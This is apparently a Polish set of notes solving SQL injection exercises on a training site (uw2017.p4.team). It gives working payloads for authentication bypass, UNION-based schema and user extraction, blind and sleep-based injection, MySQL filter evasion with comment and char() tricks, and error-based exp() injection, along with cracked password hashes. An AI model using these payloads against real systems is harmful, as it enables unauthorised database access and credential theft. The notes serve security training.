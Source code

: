 # Zadanie 1

https://uw2017.p4.team/simple-sqli

```
admin' or '1' = '1
admin -d
```


# Zadanie 2

https://uw2017.p4.team/simple-sqli-2

```
a' union select 1, 'admin', '7815696ecbf1c96e6894b779456d330e' #
asd
```


# Zadanie 3

https://uw2017.p4.team/simple-sqli-2

```
a' union select 1, (select user()), '7815696ecbf1c96e6894b779456d330e' #
asd
```
Username : insertion_

```
a' union select 1, (select database()), '7815696ecbf1c96e6894b779456d330e' #
asd
```
Database: is_not_

```
a' union select 1, (SELECT SCHEMA_NAME AS `Database` FROM INFORMATION_SCHEMA.SCHEMATA
 limit 2,1), '7815696ecbf1c96e6894b779456d330e' #
asd
```
Other database: safe1


# Zadanie 4

https://uw2017.p4.team/insertion_is_not_safe1

Rejestracja:
admin                                                   cośtam
[Znane hasło]

Potem logowanie admin/[Znane hasło]


# Zadanie 5

https://uw2017.p4.team/simple-sqli

Blind SQL

md5 hasła:
3b70d46bcdca708e26c16effc4cb23ed

md5/sha1 lookup table
https://crackstation.net

hasło:
blindoracle

# Zadanie 6

https://uw2017.p4.team/blindoracle

Blind SQL z użyciem sleep

md5 hasła:
f5eb51c76706fa018cf08e7a6d7ced12

hasło:
filtration

# Zadanie 7

https://uw2017.p4.team/filtration

Mysql filtering evasion
https://websec.wordpress.com/2010/12/04/sqli-filter-evasion-cheat-sheet-mysql/
https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/

1 or username = 'admin' #

```
//test
100/*a*/or/*a*/username=char(116,101,115,116)
//nobody
100/*a*/or/*a*/username=char(110, 111, 98, 111, 100, 121)/*a*/limit/*a*/1
//admin
100/*a*/or/*a*/username=char(97, 100, 109, 105, 110)/*a*/limit/*a*/1
// But user 'admin' doesn't exist...
```

```
1/*a*/union/*a*/sel''ect/*a*/0,1,2,3,4,5,6,7,char(97, 100, 109, 105, 110),9,10,11,12,13,14/*a*/limit/*a*/1,1
```

# Zadanie 8
Error based SQL injection

https://uw2017.p4.team/error-sqli

https://osandamalith.com/2015/07/15/error-based-sql-injection-using-exp/

```
a' union select exp(~(select*from(select user())x)),1,2,3#
a' union select exp(~(select*from(select column_name from information_schema.columns where table_name='users' limit 0,1)x)),1,2,3#
```
// 4 columns in table user


# Narzędzia (raczej do pentestów)

`sqlmap`

